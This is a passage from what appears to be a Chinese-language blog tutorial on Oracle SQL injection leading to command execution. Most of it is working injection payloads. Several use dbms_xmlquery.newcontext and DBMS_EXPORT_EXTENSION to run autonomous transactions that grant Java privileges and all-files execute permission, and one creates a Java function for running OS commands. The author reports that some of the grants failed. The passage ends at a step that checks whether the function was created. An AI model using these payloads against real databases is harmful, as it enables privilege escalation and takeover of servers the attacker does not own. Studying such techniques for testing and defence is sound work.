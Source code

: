 [![newcontext_java_policy_01_t00ls](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_java_policy_01_t00ls.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_01_t00ls.png)

[newcontext_java_policy_01_t00ls](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_01_t00ls.png)


显而易见，根本没赋权成功
关于上述赋权失败，评论里作者回复使用下述命令



```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''grant javauserpriv to YY''commit;end;') from dual;

select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''grant javasyspriv to YY''commit;end;') from dual;
```

[![newcontext_java_policy_01_t00ls](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_java_policy_01_t00ls.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_01_t00ls.png)

[newcontext_java_policy_01_t00ls](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_01_t00ls.png)



显然，一样的结果

**[随风’s blog](https://www.iswin.org/2015/06/13/hack-oracle/)**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<<ALL FILES>>'''''''',''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual;
```

[![newcontext_java_policy_02_suifeng](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_java_policy_02_suifeng.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_02_suifeng.png)

[newcontext_java_policy_02_suifeng](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_02_suifeng.png)



可见，两种方式均无果

(3) 创建函数

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

判断是否创建成功
